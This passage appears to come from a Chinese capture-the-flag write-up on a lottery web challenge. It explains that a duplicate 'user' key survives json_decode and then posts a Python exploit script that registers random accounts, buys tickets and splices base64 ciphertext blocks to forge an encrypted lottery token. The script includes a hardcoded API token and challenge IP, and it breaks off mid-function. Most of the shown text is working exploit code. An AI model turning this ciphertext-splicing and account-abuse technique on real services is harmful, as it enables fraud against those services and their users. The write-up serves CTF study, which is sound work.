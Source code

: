 前面的user在json_decode之后会被后面的user所覆盖，形成了user不变而lottery任意控制的局面

贴一个JrXnm师傅的exp：

```python
import requests
import random
import string
import json
import base64
from urllib.parse import quote

user_token = "Yu5PGq2I0jhZssXttlEaiBkNQXRrxzbD"
user_uuid = "ae4774be-2e44-49d2-82dc-6c69c57c4378"
user_enc = b"+Zza7U18mMFaHhYyrTaOr\/IubODmR8QF1yC01+0XIg3Ea0s5evdcMwcHHNovcM3pytuj4wsD2NFsMv1g+yjXfyEFlnH5hTkHnLKzkFc0dmHqydlPZNnijH8cHjiFVPKU4tKa3tbXh1v0ZTejYwnrwjeWiY89xrpsXSMn2CEt8bM="

cookie = {
    "api_token": user_token
}

url = "http://52.149.144.45:8080"

def get_random():
    return ''.join(random.sample(string.ascii_letters + string.digits, 10))

def register():
    username=get_random()
    data= {
            "username": username,
            "password": "asdasd"
    }
    res = requests.post(url + "/user/register",data=data)
    d = json.loads(res.text)
    
    return username

def login(username, password="asdasd"):
    data = {
        "username": username,
        "password": password
    }
    res = requests.post(url + "/user/login",data=data)
    d = json.loads(res.text)
    return d['user']['api_token']

def info(api_token):
    res = requests.get(url + "/user/info?api_token=" + api_token)
    d = json.loads(res.text)
    print('uuid: '+d['user']['uuid'])

def buy(api_key):
    data = {
        "api_token": api_key
    }
    res = requests.post(url + "/lottery/buy",data=data)
    #print(res.text)
    d = json.loads(res.text)

    return d['enc']

def get_enc(enc):
    o = base64.b64decode(enc)
    u = base64.b64decode(user_enc)
    m = base64.b64encode(o[:64] + u[32:])
```